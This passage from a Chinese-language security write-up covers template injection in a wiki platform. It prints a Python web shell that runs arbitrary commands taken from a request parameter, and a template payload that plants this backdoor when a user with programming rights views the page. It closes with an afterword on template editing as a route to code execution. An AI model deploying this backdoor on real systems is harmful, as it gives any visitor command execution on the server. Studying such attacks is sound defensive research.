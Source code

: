 ```
from subprocess import check_output 
q = request.get('q') or 'true'
q = q.split(' ') 
print ''+check_output(q)+'' 

```

我们只需要添加一些代码来获取管理员的权限：

```
innocent content 
#if( $doc.hasAccessLevel("programming") ) 
$doc.setContent(" 
innocent content 
from subprocess import check_output 
q = request.get('q') or 'true' 
q = q.split(' ') 
print ''+check_output(q)+'' 
") 
$doc.save() 
#end

```

当包含有这样内容的页面被一个有programming权限的用户查看的时候，后门会自动安装。之后所有访问这个页面的人都可以执行任意命令了：

![pic13](http://drops.javaweb.org/uploads/images/516b9b5278c9fb49e56918d122156eb336a27aa4.jpg)

0x03 后记
=====

作者提出的这种攻击思路还是很不错的，以前也了解这种模板文件可以用来执行任意代码，但是没有很深入的去思考进一步的利用方式，传统的攻击思路一般是获取后台管理员权限，然后利用上传等漏洞getshell，但其实后台编辑模板的功能很多时候就可以直接执行任意代码，经过测试大部分具有编辑模板功能的应用都存在类似问题，看来在攻击过程中对技术理解越透彻思路就越广。